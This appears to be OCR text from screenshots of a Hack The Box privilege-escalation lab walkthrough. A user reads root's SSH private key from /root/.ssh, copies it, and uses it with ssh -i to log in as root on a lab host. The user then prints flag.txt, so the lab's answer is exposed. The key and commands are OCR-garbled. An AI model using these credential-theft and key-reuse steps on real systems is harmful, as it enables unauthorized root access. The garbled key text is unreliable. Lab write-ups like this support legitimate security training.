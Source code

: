  
Parrot Terminal Parrot Terminal drwxr-x- -rwxr-x- - 1 root user2 4096 Feb 12 2021 .ssh - 1 root user2 1309 Aug 19 . viminfo 33 Feb 12 2021 flag. txt 1 root root user2@ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd:/root$ cd .ssh user2@ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd:/root/ . ssh$ Is authorized keys id rsa id rsa. pub . ssh$ cat id rsa - -BEGIN OPENSSH PRIVATE KEY- b3B1bnNzaC1rZXktdj EAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAB1wAAAAdzc2gtcn NhAAAAAwEAAQAAAYEAt3nX57BIZ2nSHY+aaj41Kt91yeLVNiFh7X€vQisxoPv9BjNppQxV PtQ8csvHq/GatgS080VyskZIRbWb7QvCQ17JsT+Pr4ieQayN10Dm6+i9F1hXyMc€VsAqMk €5z9YKStLma€iN6181Mr€dA163x€mtwRKeHvJR+EiMtUTIAX9++kQJmD9F31DSnLF4/dEy G4WQSAH7F8Jz30rRKLprBiDf27LSPgOJ6j80Ln4bsiacaWFB13+CqkXeGkecEHg5d1L4K+ aPDP2xzFB€d€c7kZ8AtogtD3UYdiVKuF5fzOPJxJ01Mk07UsrhAh€T6m1BJWR1jjUtHwSs ntrFfE5trYET5L+ov5WSi+tyBrAfCcg€vWIU78Ge/3h4zAG8KaGZProMUS1u3MbCf11uK/ EKQXxCN1yr7Gmci€pLi9k16A1vcJ1xXYHBtJg6anLntwYVxbwYgYXp2Ghj+GwPcj21i4fq ynRFP1fsy6zoSjN9C977hCh5JStT6Kf€1dM68BcHAAAFiA2zO€oNsztKAAAAB3NzaC1yc2 EAAAGBALd51+ewdWdp€h2Pmm0+JSrfZcni1TYhYe19L€1rMaD7/QYzaaUMVT7UPHLLx6vx mrYEqPKFcrJGSEW1m+UwkCOybE/j6+1nkGsjSKA5uvovRdYV8jHNFbAKjJNOc/WCkrS5m t1jepfNTK9HQCOt8dJrcESnh7yUfh1jLVE5QF/fvpECZg/Rd5Q€pyxeP3RMhuFkEgB+xfC c9zq€Si6awYg39uy€j4Dieo/Di5+G71mnG1hQZd/gqpF3hpHnBB40XSC+Cvmjwz9scxQdH dH05GfALa1LQ91GHYISrheX8zjycSTtTJK01LK4Q1dE+piASVkZY41LR8ErJ7axXxOba2B E+S/qL+VkovrcgawHwn1NL1tVO/Bnv94emBvCmhmT66DFEpbtzGwn5dbivxCkF8QjSMq+ xpn1tKS4vZNegNb3CZcV2BwbSYOmpy57cGFcW8GIGF6dhoY/hsD319i1uH6sp€RT9X7Mus 6EozfQve+4QoeSUrU+in9CHTOvAXBwAAAAMBAAEAAAGAMxEtv+YEd3kjq2ip4QJVE/7D9R 12p+9Ys2JRgghFsvoQLeanc/Hf1DH8dTM€6y2/EwRvBbmQ9//J4+Utdif8tDIJ9BSt6HyN F9hwG/dmzqij 4NiM7mxLrA2mcQ0/oJKBoNvcmGXEYkSHqQysAti2XDis rP2Clzh5CjMfPu Dj 1Kyc6g1/5i10SBeU110qQ/MzECf3xaMPgUh10Tr+ZmikmzsRM7QtAme3vkQ4rUYabVaD 2Gzidc1e1Af1TuY5kPf1BG2yFAd3EzddnZ6rvmZxsv2ng9u3Y4tKHNttPYBzoRWJOq1fx9 PyqNkT€c3sV4BdhjH5/65w7MtkufqF8pvMFeCyywJgRL/v€/+nzY5VN5dcoaxkd1Xai3DG 5/ sVv1iVLHh67UC7adYcj rN49g€S3y01W6/x6n+GcgCH8wHKHDvh5h€9j dmxDqY3A8jTit CeTUQKMIEp5ds€YKfzN1z41j7NpCv@€317CQwSESjVtYPKia17WvOFwMZqK/B9zxoxAAAA r8q1afg+nB+1qtu1Z pTErmbc2DHuoZp/kc58QrJe1sdPpXFGTcvM1k64LJ+dt9sWEToG1/VDF+Ps30vmeyzwg64 +Xj UNQ6k9VLZqd2M5 rhONefNxM+LKR4xj OEydSybFoD cSYINtEk6EW92xZBojJB7+4RGKh3+YNwvocvUkHWDEKADB07YAAADBAPRj /ZTM7ATS01€k TcHWJpTiaw80SWKbAmvqAtiWa rsM+NDIL6XHqeBL8QL+vczaJjtV94XQc/3ZBSao/Wf8E5 InrD4hdj

 

    Copy the key in your file in your terminal 

 
File Edit View Search Terminal Parrot Terminal nparrot@parrot -/HTB $nano id rsa• Tabs Help Parrot Terminal Parrot Terminal

 

    Login using rsa key 

Parrot Terminal — parrot@parrot L-/HTB $nano id rsa aparrot@parrot [-/HTB) $chmod id rsa —parrot@parrot (-/HTB) $ssh root@94.237.48.48 -i id rsa _arro The authenticity of host '94.237.48.48 (94.237.48.48) can't be established. ECDSA key fingerprint is SHA256:mWYrjUwqNf+IRfujiU8cZ3JptxPeZGP9sTgGbasQieQ. Are you sure you want to continue connecting (yes/no/ [fingerprint])? yes Warning: Permanently added '94.237.48.48' (ECDSA) to the list of known hosts. root@94.237.48.48: Permission denied (publickey) . parrot@parrot [-/HTBJ $ssh root@94.237.48.48 -p 5€7€6 -i id rsa Welcome to Ubuntu 2€.€4.1 L TS (GNU/Linux 5.1€.€-18-amd64 x86 64) * Documentation: https://help.ubuntu.com https : // landscape. canonical . com * Management: https : //ubuntu . com/advantage * Support: This system has been minimized by removing packages and content that are not required on a system that users do not log into. To restore this content, you can run the 'unminimize' command. The programs included with the Ubuntu system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright. Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law. root@ng-535045-gettingsta rtedp rivesc-hzq19-5b6695dcc4-

 
Parrot Terminal Parrot Terminal rtedprivesc-hzq19 -5b6695dcc4 root rtedprivesc-hzq19 -5b6695dcc4 flag . txt rtedprivesc-hzq19 -5b6695dcc4 HTB{pr1v11363 35c41471€n 2 r€€7} rtedprivesc-hzq19 -5b6695dcc4 rtedprivesc-hzq19 -5b6695dcc4 -z9vdd:-# -z9vdd:-# -z9vdd:-# -z9vdd. -z9vdd:-# whoami Is cat flag. txt
